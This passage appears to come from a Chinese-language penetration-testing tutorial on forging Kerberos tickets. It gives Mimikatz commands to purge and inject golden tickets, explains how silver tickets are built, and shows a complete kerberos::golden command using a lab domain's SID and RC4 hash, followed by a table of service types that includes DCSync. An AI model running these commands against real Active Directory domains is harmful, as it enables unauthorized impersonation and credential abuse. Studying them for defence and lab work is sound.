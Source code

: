 清空主机内的票据缓存，再将生成的golden.kiribi导入内存：

```java
kerberos::purge
klist purge
kerberos::ptt golden.kiribi
```

可以使用

```java
kerberos::list
klist
```

来验证是否伪造成功。

# 伪造白银票据

同理来说，在第五步时

```java
ST = Key-Server{Client/Server Session Key + Info(U) + End time}
Authenticator = Client/Server Session Key{Stamp + Info(U)}
AP_REQ = ST + Authenticator + Flag
```

假如我们知道了Key-Server，也就可以通过伪造ST来构建出一个合法的AP_REQ进而不经过KDC直接请求Server服务了。不过显然，ST生成时指定了相关的服务名，因此只能用来访问相应的服务，所以局限性比较大

制作白银票据需要以下这些内容：

```java
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是OWA2010SP3.0day.org
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名（可以为任意值）
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入
```

例子：

```java
kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt
```

通常来说可用的service类型有以下这些：

| Service Type                               | Service Silver Tickets |
| ------------------------------------------ | ---------------------- |
| WMI                                        | HOST RPCSS             |
| PowerShell Remoting                        | HOST HTTP              |
| WinRM                                      | HOST HTTP              |
| Scheduled Tasks                            | HOST                   |
| Windows File Share (CIFS)                  | CIFS                   |
| LDAP operations includingMimikatz DCSync   | LDAP                   |
| Windows Remote Server Administration Tools | RPCSS LDAP CIFS        |
